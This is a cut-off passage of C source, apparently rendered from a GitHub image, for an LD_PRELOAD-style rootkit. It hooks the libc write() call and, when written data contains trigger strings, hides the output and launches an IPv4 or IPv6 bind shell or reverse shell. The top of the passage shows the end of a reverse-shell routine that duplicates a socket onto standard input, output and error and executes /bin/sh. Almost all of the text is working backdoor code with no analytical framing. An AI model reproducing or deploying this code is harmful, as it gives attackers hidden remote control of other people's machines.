 ```c
    bind(sockfd, (struct sockaddr*) &client, sizeof(client));

    connect(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    for (int count = 0; count < 3; count++)
    {
        dup2(sockfd, count);
    }

    execve("/bin/sh", NULL, NULL);
    close(sockfd);

    return 0;
}

ssize_t write(int fildes, const void *buf, size_t nbytes)
{
    ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);

    ssize_t result;

    new_write = dlsym(RTLD_NEXT, "write");


    char *bind4 = strstr(buf, KEY_4);
    char *bind6 = strstr(buf, KEY_6);
    char *rev4 = strstr(buf, KEY_R_4);
    char *rev6 = strstr(buf, KEY_R_6);

    if (bind4 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv4_bind();
    }

    else if (bind6 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv6_bind();
    }

    else if (rev4 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv4_rev();
    }

    else if (rev6 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv6_rev();
    }

    else
    {
        result = new_write(fildes, buf, nbytes);
    }

    return result;
```